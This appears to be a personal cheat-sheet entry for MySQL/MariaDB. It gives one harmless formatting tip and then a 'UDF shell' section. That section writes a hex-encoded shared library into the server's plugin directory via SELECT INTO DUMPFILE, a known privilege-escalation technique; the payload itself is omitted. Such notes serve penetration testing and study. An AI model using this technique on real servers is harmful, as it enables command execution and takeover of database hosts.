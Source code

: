 # mysql mariadb

## display query output as pretty printed text with column names
Add `\G`
```
select * from users \G
```

## UDF shell
## write any binary file with file permissions
`set @shell=0x <hex here> ;`
paste in hex as a variable with no quotes.
prepare payload as plain hex with no newlines with ~/kb/bash-scripting/string-to-hex.sh
```SQL
select @@plugin_dir;
select binary @shell into dumpfile '/path/to/file/file.so';
```

